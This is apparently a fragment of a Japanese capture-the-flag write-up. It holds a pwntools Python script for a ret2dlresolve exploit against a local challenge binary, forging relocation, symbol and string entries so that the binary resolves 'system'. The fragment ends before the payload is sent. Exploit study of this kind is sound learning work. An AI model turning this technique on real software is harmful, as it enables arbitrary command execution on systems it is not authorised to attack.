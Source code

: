### puts\x00 => system\x00に変更
system関数が呼ばれる。

```python=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)
target = process("./chall")

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_got_gets = elf.got["gets"]
addr_bss = elf.bss()

# section
addr_plt_start = elf.get_section_by_name(".plt").header.sh_addr
addr_rela_plt = elf.get_section_by_name(".rela.plt").header.sh_addr
addr_dynsym = elf.get_section_by_name(".dynsym").header.sh_addr
addr_dynstr = elf.get_section_by_name(".dynstr").header.sh_addr

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
addr_ret = rop.find_gadget(["ret"]).address
# addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 

stack_size = 0x800
base_stage = addr_bss + stack_size

# fake rela.plt
fake_rela_offset = (base_stage + 0x10) - addr_rela_plt
fake_rela_align = 0x18 - (fake_rela_offset % 0x18)
fake_rela_offset += fake_rela_align

puts_reloc_arg = fake_rela_offset // 0x18

# fake .dynsym
fake_sym_offset = (base_stage + 0x10 + fake_rela_align + 0x18) - addr_dynsym
fake_sym_align = 0x18 - (fake_sym_offset % 0x18)
fake_sym_offset += fake_sym_align

# fake rela
fake_rela = p64(addr_got_gets)          # r_offset
fake_rela += p64((fake_sym_offset // 0x18) << 32 | 0x7)       # r_info
fake_rela += p64(0x0)                   # r_addend

# fake .dynstr
fake_str_offset = (base_stage + 0x10 + fake_rela_align + len(fake_rela) + fake_sym_align + 0x18) - addr_dynstr

# fake str
fake_str = b"system\x00"

# fake sym
fake_sym = p32(fake_str_offset)        # st_name
fake_sym += p32(0x12)       # st_info, st_other, st_shndx
fake_sym += p64(0x0)        # st_value
fake_sym += p64(0x0)        # st_size

print("[*] addr .plt start : 0x{:x}".format(addr_plt_start))
print("[*] addr .rela.plt start : 0x{:x}".format(addr_rela_plt))
print("[*] addr .dynsym start : 0x{:x}".format(addr_dynsym))
```